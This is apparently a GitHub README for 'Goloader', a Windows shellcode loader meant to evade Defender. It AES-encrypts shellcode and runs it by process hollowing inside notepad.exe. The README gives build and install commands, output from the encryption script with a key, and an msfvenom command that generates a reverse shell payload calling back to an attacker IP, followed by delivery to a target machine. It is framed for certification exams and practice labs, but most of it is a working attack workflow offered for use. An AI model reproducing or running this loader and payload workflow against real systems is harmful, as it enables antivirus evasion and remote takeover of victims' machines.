 # Goloader

This is a basic Windows shellcode loader I used for some Red Team and AD Pentest certification exam, this also works well against most HTB/Vulnlab labs with WinDef on. It took AES GCM encrypted shellcode and Base64 key provided by aes.py as input, the loader will use the Process Hollowing to execute the shellcode inside a notepad.exe sacrificial process. 

Below, I tested with sliver mtls beacon's shellcode, I encoded the shellcode with aes.py and saved the key later for loader. 
```
python3 aes.py ARBITRARY_STOREY.bin

[--- ENCRYPTION KEY (32-byte raw key in BASE64) ---]
4mdG4D8a9SamnWmcMc79siNE3QUwedDUzldrIjamfbg=
-------------------------------------------------------------------

[+] Encryption successful! Output is raw binary.
[+] Encrypted file saved to: ARBITRARY_STOREY.bin.enc
[+] Key file written (UTF-16LE) -> ARBITRARY_STOREY.bin.key
```
![alt text](images/load.png)

![alt text](images/receive.png)

# Installation
```
go install github.com/dwgth4i/goloader@lastest
```
Or you can just clone the repo and build it yourself (From Windows)
```
git clone https://github.com/dwgth4i/goloader

cd goloader

go build
```
Build from Linux
```
GOOS=windows GOARCH=amd64 go build -o goloader.exe
```
# Usage

First of all, generate the shellcode you want to load with any shellcode generator you like, it could be motar, donut, msfvenom, any C2 beacon generator ... In this example lets try a msfvenom x64 Windows reverse shell payload
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.112.128 LPORT=443 -f raw > payload.bin
```
Encrypt it with aes.py
```
python3 aes.py payload.bin
```
![alt text](images/encrypt.png)

This encryted shellcode can then be delivered to target machine and use goloader to execute it along with the base64 key, before that remember to start the listener on the attacker machine.

![alt text](images/load_2.png)

![alt text](images/receive_2.png)
